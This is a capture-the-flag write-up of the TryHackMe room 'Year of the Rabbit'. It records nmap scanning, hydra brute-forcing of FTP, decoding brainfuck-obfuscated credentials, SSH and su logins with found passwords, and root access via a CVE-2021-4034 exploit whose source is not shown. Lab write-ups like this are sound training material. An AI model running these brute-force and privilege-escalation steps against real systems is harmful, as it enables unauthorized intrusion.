 ```yaml
---
title: "Year of the Rabbit"
date: 2022-08-30 10:00:40 +0530
categories: [TryHackMe]
tags: [Machines]
image: /assets/img/yearOfRabbit/profile.png
---
```


This is the [tryhackme](https://tryhackme.com/room/yearoftherabbit) room with difficult level `easy`.

## Enumeration.
### nmap scanning.

**Command.**
```
 nmap -sC -sV 10.10.59.107 -oN nmap-scan 
```
**Results**
```
# Nmap 7.92 scan initiated Fri May 20 22:37:30 2022 as: nmap -sC -sV -oN nmap-scan 10.10.59.107
Nmap scan report for 10.10.59.107
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 20 22:38:15 2022 -- 1 IP address (1 host up) scanned in 45.31 seconds
```

### Burp-suit.

![image](/assets/img/yearOfRabbit/burp.png)

**Visit  the hidden directory**
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU 
```
Then navigate to ``http://thm-machine-ip/WExYY2Cv-qU/``

This will lead us to the directory which has an image named as ``Hot_Babe.png.`` I renamed it to `bae.png.`
![image](/assets/img/yearOfRabbit/bae.png)

**Checking if there is any message in the image.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ strings bae.png
```
We found a message as shown below.


>[!note] message from image
>Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:


## Brute-force ftp password.
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ hydra -l ftpuser -P "ftp-passwds" -s 21 -o "ftp-results" ftp://10.10.59.107 
```
**Result.**
```
password: 5iez1wGXKfPKQ
```

## Login to ftp server.

```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ftp 10.10.59.107
Connected to 10.10.59.107.
220 (vsFTPd 3.0.2)
Name (10.10.59.107:egovridc): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

**List ftp files.**
```
ftp> ls 
229 Entering Extended Passive Mode (|||33780|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```

**Download  Eli's_Creds.txt from ftp server.**
```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||12303|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*************************************************************************|   758      622.04 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (4.46 KiB/s)
ftp> 
```

**Reading Eli's_Creds.txt.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

The file is obfuscated  with brainfuck, so i decided to use online [brainfuck](https://www.dcode.fr/brainfuck-language) tool to decrypt.

**Results**
```
User: eli
Password: DSpDiM1wAEwid
```

## Login into Eli's machine by using ssh.

**ssh**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ssh eli@10.10.59.107 
```

>message from root 
>
>1 new message
>
>Message from Root to Gwendoline:
>"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
>
>END MESSAGE
 
## User privilege escalation.

### Find secret message from root.
 
**s3cr3t**
```
eli@year-of-the-rabbit:~$ find /  -name *s3cr3t* 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

**Reading the file.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
It contains password for user gwendoline.

**Switch to user gwendoline.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline
```

## Root privilege escalation.

`CVE-2021-4034`
Send the files to the victim machine and run `make` then `exploit`
Results.

**Root user**
```
gwendoline@year-of-the-rabbit:~$ make
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
gwendoline@year-of-the-rabbit:~$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile  user.txt
gwendoline@year-of-the-rabbit:~$ ./exploit 
# cd /root
# ls
root.txt
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
# 
```

**End.**
